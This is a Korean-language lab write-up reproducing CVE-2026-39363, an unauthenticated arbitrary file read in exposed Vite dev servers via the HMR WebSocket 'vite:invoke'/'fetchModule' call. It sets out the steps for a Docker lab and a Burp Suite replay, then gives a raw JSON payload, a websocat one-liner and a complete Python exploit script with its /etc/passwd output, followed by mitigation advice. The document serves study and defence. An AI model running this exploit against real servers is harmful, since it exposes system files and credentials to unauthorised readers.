








# CVE-2026-39363

**Contributors**

-   [김지균(@gyun10)](https://github.com/gyun10)

<br/>

# Vite Dev Server WebSocket 임의 파일 읽기 취약점 (CVE-2026-39363)

Vite는 HMR(Hot Module Replacement)을 지원하는 개발 서버와 Rollup 기반 번들러로 구성된 프론트엔드 빌드 도구다. Vite 개발 서버는 HTTP 요청 경로에 대해서는 `server.fs.allow` / `server.fs.deny` 설정으로 파일 시스템 접근을 제한하지만, HMR WebSocket 엔드포인트를 통해 노출되는 `fetchModule` 메서드에는 이 접근 제어가 적용되지 않는다.

공격자는 `vite-hmr` 서브프로토콜로 WebSocket에 연결한 뒤 `vite:invoke` 커스텀 이벤트로 `fetchModule`을 직접 호출하고, `file://` 스킴과 `?raw`(또는 `?inline`) 쿼리를 조합하여 서버가 접근 가능한 임의 파일의 내용을 JavaScript 모듈 문자열 형태로 그대로 반환받을 수 있다.

- 영향을 받는 버전: Vite 6.0.0 ~ 6.4.1, 7.0.0 ~ 7.3.1, 8.0.0 ~ 8.0.4 (6.4.2, 7.3.2, 8.0.5에서 패치됨)
- 전제 조건: `--host` 플래그 또는 `server.host` 설정으로 개발 서버가 외부 네트워크에 노출되어 있어야 한다 (기본값인 loopback 바인딩 상태에서는 원격 공격자가 WebSocket 엔드포인트에 도달할 수 없다).
- CVSS 3.1 Base Score: **7.5 (High)**
- 인증 불필요, 네트워크에서 원격 공격 가능, 기밀성 영향 High(임의 파일 읽기), 무결성/가용성 영향 없음


## 취약 조건

- Vite 개발 서버가 위 취약 버전 범위 내에서 `--host`(또는 `server.host`) 옵션으로 외부에 노출되어 실행 중이어야 한다.
- 공격자가 HMR WebSocket 엔드포인트(`/`, `vite-hmr` 서브프로토콜)에 네트워크로 도달할 수 있어야 한다.
- 별도의 인증 절차 없이 WebSocket 업그레이드 요청만으로 `fetchModule`을 호출할 수 있다.
- 읽고자 하는 파일에 대해 Vite 서버 프로세스가 읽기 권한을 가지고 있어야 한다.

## 환경 구성

Vite 7.3.1 개발 서버 환경을 시작하기 위해 다음 명령을 실행한다:

```bash
docker compose up -d
```

```yaml
# docker-compose.yml
services:
  web:
    image: vulhub/vite:7.3.1
    container_name: vite-cve-2026-39363
    ports:
      - "5173:5173"
    restart: always
```

환경이 정상적으로 뜨면 `http://localhost:5173` 에서 Vite 기본 앱 페이지에 접근할 수 있다.


> vite 기본 개발 서버 접속 확인

## 재현 절차

`docker compose up -d`로 취약한 Vite 7.3.1 개발 서버 컨테이너를 기동한 뒤, 아래 두 가지 방식으로 각각 재현하고 교차 검증했다.

### A. Burp Suite로 값을 직접 조작하며 재현

1. Burp 내장 브라우저(또는 프록시를 통과하도록 설정한 브라우저)로 `http://<target>:5173`에 접속한다. 페이지가 로드되면서 Vite의 HMR 클라이언트 스크립트(`@vite/client`)가 자동 실행되고, 이 스크립트가 백그라운드에서 `vite-hmr` WebSocket 연결을 서버로 연다.

   
   > 해당 페이지 새로고침 후 Burp Intercept로 발생한 Request 확인 (`Origin: http://<target>:5173` 헤더 포함)

2. 캡처된 요청에서 `Origin` 헤더를 지운 채로 요청을 보내본다.

   
   > 요청하는 Origin 헤더 부분을 지우고 요청을 보냄

3. 페이지 로드 시 브라우저가 자동으로 연 HMR WebSocket 연결은 Burp Proxy의 **WebSockets history** 탭에 별도로 기록된다. `{"type":"connected"}` 그리팅 프레임이 이미 클라이언트로 전달된 것을 확인할 수 있다.

   
   > WebSockets 기록에서 해당 요청이 연결되었음을 확인 가능

4. 해당 WebSocket 히스토리 항목을 우클릭해 **Send to Repeater**로 보낸다.

   
   > 요청을 Repeater로 보내기

5. Repeater의 WebSocket 메시지 전송 창에서, 정상 클라이언트가 보내던 메시지 대신 아래 악성 `vite:invoke` 페이로드를 직접 입력해 전송한다.

   ```json
   {"type":"custom","event":"vite:invoke","data":{"id":"send:0","name":"fetchModule","data":["file:///etc/passwd?raw"]}}
   ```

   
   > WebSocket 메시지를 기존 내용에서 위 JSON 페이로드로 바꿔 텍스트로 전송

6. 서버는 이 요청을 정상적인 HMR 내부 호출로 인식하고, `data.data.result.code` 필드에 `/etc/passwd` 전체 내용을 JavaScript 모듈 문자열(`export default "..."`)로 담아 그대로 반환한다.

   
   > 서버는 페이로드를 JavaScript로 인식하여 `/etc/passwd`와 같은 중요 서버 정보를 응답하게 됨

> 위 흐름은 브라우저가 이미 정상적으로 열어 둔(= Origin이 서버 자신과 일치해 그대로 허용된) 세션을 Burp에서 가로채 재사용하는 방식이다. 완전히 새로운 연결을 처음부터 열어야 하는 "진짜" 원격·비인증 공격자의 관점은 아래 B 방식(PoC 스크립트)으로 별도 검증했다 — 브라우저를 전혀 거치지 않고 `Origin` 헤더 자체를 보내지 않는 방식으로, 사전 세션 없이도 동일한 파일을 유출할 수 있음을 확인했다.
>
> 브라우저의 `WebSocket` API는 페이지 스크립트가 `Origin` 헤더 전송 자체를 끌 수 없도록 스펙 차원에서 강제하기 때문에, 공격자가 임의 사이트에서 새 WebSocket 연결을 여는 방식(브라우저 주소창/개발자도구 콘솔)으로는 이 취약점을 재현할 수 없다. Burp의 WebSocket 히스토리 재사용, `websocat`, 혹은 아래 Python PoC처럼 브라우저 엔진을 거치지 않는 클라이언트가 필요하다.

### B. PoC 스크립트로 원격·비인증 관점에서 재검증

브라우저나 기존 세션 없이, Python 클라이언트가 `Origin` 헤더 없는 새 WebSocket 연결을 직접 여는 방식이다. 상세 코드와 실행 결과는 아래 "PoC 코드" / "실행 결과" 섹션 참고.

### 수동 검증 (websocat)

```bash
echo '{"type":"custom","event":"vite:invoke","data":{"id":"send:0","name":"fetchModule","data":["file:///etc/passwd?raw"]}}' \
    | websocat -n1 --protocol vite-hmr ws://localhost:5173/
```

## PoC 코드

[`exploit.py`](exploit.py)

```python
import asyncio
import json
import sys

import websockets


async def exploit(target, file_path):
    uri = f"ws://{target}/"
    payload = {
        "type": "custom",
        "event": "vite:invoke",
        "data": {
            "id": "send:0",
            "name": "fetchModule",
            "data": [f"file://{file_path}?raw"],
        },
    }

    async with websockets.connect(uri, subprotocols=["vite-hmr"]) as ws:
        greeting = await ws.recv()
        print(f"[*] Server greeting: {greeting}")

        await ws.send(json.dumps(payload))
        response = json.loads(await ws.recv())

        code = response.get("data", {}).get("data", {}).get("result", {}).get("code")
        if code is None:
            print("[-] Exploit failed.")
            print(response)
            return False

        content = code.split("export default ", 1)[1].strip().strip('"')
        content = content.encode().decode("unicode_escape")

        print(f"[+] File read: {file_path}\n")
        print(content)
        return True


if __name__ == "__main__":
    target = sys.argv[1] if len(sys.argv) > 1 else "localhost:5173"
    file_to_read = sys.argv[2] if len(sys.argv) > 2 else "/etc/passwd"

    asyncio.run(exploit(target, file_to_read))
```

실행:

```bash
pip3 install websockets==15.0.1
python3 exploit.py
# 또는 대상/파일을 직접 지정
python3 exploit.py localhost:5173 /usr/src/package.json
```

## 실행 결과

Burp Suite를 거치지 않고, 로컬 터미널에서 `python3 exploit.py`를 인자 없이 실행해 기본 대상(`localhost:5173`)에서 `/etc/passwd`를 읽어온 결과다.

```
$ python3 exploit.py
[*] Server greeting: {"type":"connected"}
[+] File read: /etc/passwd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
node:x:1000:1000::/home/node:/bin/bash
```


> 터미널에서 `python3 exploit.py`로 익스플로잇 결과를 확인. Burp/브라우저 세션 없이도, `Origin` 헤더 없는 새 WebSocket 연결만으로 원격·비인증 상태에서 파일을 유출할 수 있음을 보여준다.

`/etc/passwd` 외에 애플리케이션 소스 디렉터리(`/usr/src`)의 `package.json`도 동일한 방식으로 유출할 수 있음을 확인했다.

```
$ python3 exploit.py localhost:5173 /usr/src/package.json
[*] Server greeting: {"type":"connected"}
[+] File read: /usr/src/package.json

{
  "name": "vite-project",
  "private": true,
  "version": "0.0.0",
  "type": "module",
  "scripts": {
    "dev": "vite",
    "build": "vite build",
    "preview": "vite preview"
  },
  "devDependencies": {
    "vite": "7.3.1"
  },
  "packageManager": "yarn@1.22.19+sha1.4ba7fc5c6e704fce2066ecbfb0b0d8976fe62447"
}
```

## 대응 방안

- **패치 적용**: Vite를 6.4.2, 7.3.2, 8.0.5 이상으로 업그레이드한다. 해당 버전들은 `fetchModule`에도 HTTP 요청 경로와 동일한 파일 시스템 접근 제어를 적용한다.
- **개발 서버 노출 최소화**: 프로덕션 환경은 물론, 개발 환경에서도 `--host` 옵션 사용을 최소화하고, 부득이하게 사용해야 한다면 신뢰된 네트워크(VPN, 사내망)에서만 접근 가능하도록 제한한다.
- **Origin 검증 강화**: 리버스 프록시 단에서 `Origin` 헤더가 없거나 신뢰되지 않은 WebSocket 업그레이드 요청을 차단한다.
- **최소 권한 원칙**: 개발 서버 프로세스의 OS 계정 파일 접근 권한을 최소화하여, 임의 파일 읽기가 성공하더라도 민감 파일(비밀키, `.env`, 자격 증명)에 접근할 수 없도록 한다.
- **네트워크 모니터링**: `vite-hmr` 서브프로토콜을 사용하는 비정상적인 WebSocket 연결 및 `vite:invoke` 이벤트 패턴을 탐지하는 로깅 체계를 구성한다.

## 환경 종료

```bash
docker compose down
```
